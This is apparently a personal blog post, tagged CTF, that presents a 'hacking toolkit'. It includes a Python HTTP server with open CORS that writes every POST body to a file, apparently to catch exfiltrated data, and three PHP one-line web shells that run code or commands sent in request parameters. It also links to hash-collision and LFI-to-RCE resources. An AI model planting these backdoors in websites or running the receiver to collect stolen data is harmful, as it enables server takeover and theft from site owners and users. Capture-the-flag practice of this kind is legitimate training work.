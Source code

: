 ```yaml
---
abbrlink: 4e56d65
categories:
    - - Hacking
cover: https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/24/9/Blog_cover%20(17)%20(1)_3e1f0c91c61253af1f2670f4341e7d33.jpg
date: "2024-09-03T23:50:41.047232+08:00"
sticky: 1337
tags: CTF
title: My Hacking Toolkit
updated: "2024-09-04T16:33:10.514+08:00"
---
```


# Temp Server (Python)

```python
from http.server import SimpleHTTPRequestHandler, HTTPServer
from urllib.parse import unquote
class CustomRequestHandler(SimpleHTTPRequestHandler):

    def end_headers(self):
        self.send_header('Access-Control-Allow-Origin', '*')  # Allow requests from any origin
        self.send_header('Access-Control-Allow-Methods', 'GET, POST, OPTIONS')
        self.send_header('Access-Control-Allow-Headers', 'Content-Type')
        super().end_headers()

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'Hello, GET request!')

    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')

        self.send_response(200)
        self.end_headers()

        # Log the POST data to data.html
        with open('data.html', 'a') as file:
            file.write(post_data + '\n')
        response = f'THM, POST request! Received data: {post_data}'
        self.wfile.write(response.encode('utf-8'))

if __name__ == '__main__':
    server_address = ('', 8080)
    httpd = HTTPServer(server_address, CustomRequestHandler)
    print('Server running on http://localhost:8080/')
    httpd.serve_forever()
```

# One-liner Trojan (Backdoor, Webshell)

```php
<?php @eval($_POST['shell']);?>
<?php @system($_POST["cmd"])?>
<?php passthru($_GET['cmd']); ?>
```

# Hash Collision

-   [Hash Collisions](https://github.com/CX330Blake/Hash-Collisions/)

# LFI & RFI

## LFI2RCE

-   [Advanced Local File Inclusion to RCE in 2022](https://blog.stevenyu.tw/2022/05/07/advanced-local-file-inclusion-2-rce-in-2022/)
-   [PHP_INCLUDE_TO_SHELL_CHAR_DICT](https://github.com/CX330Blake/PHP_INCLUDE_TO_SHELL_CHAR_DICT)
